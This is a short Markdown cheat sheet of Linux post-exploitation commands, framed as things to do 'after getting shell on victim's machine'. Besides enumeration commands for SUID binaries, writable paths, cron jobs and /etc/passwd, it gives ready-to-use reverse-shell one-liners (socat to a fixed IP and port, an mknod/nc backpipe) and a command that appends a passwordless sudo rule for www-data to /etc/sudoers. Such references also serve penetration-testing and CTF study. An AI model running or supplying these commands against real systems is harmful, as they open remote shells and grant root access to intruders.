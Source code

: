 Linux Enumeration
===================

#### Things to do after getting shell on victim’s machine

- Find World Writable Folders
```ShellSession
find / -xdev -type d -perm -0002 -ls 2> /dev/null

- Find World Writable Files

```ShellSession
find / -xdev -type f -perm -0002 -ls 2> /dev/null
```

- Find SUIDs

```ShellSession
find / -perm -4000 -user root -exec ls -ld {} \; 2> /dev/null
```

- DIstro Information

```ShellSession
cat /etc/*-release
```

- Check open ports

```ShellSession
netstat -antup
```

- Check for sudo permissions

```ShellSession
sudo -l
```

- Check OS architecture

```ShellSession
uname -a
```

- Check cronjobs

```ShellSession
cat /etc/cron*
```

- Check network configuration

```ShellSession
ip addr
```

- Check contents of **/etc/passwd**

```ShellSession
cat /etc/passwd
```

- Using **socat**
    - Listen

```ShellSession
      $ socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```

    - Connect

```ShellSession
      $ socat file:`tty`,raw,echo=0 tcp-listen:4444
```

- Reverse connection using mknod

```ShellSession
mknod /tmp/backpipe p; /bin/sh 0< /tmp/backpipe | nc <ip> <port> 1> /tmp/backpipe; rm /tmp/backpipe
```

- Check version of an installed application

```ShellSession
dpkg -l <application name>
```

- Sometimes checking `/opt` `/tmp` `/var` `/usr` might help.

- Edit **sudoers** file and grant sudo access to the current user (www-data in this case) with no password

```ShellSession
echo "www-data ALL=NOPASSWD: ALL" >> /etc/sudoers && chmod 440 /etc/sudoers
```
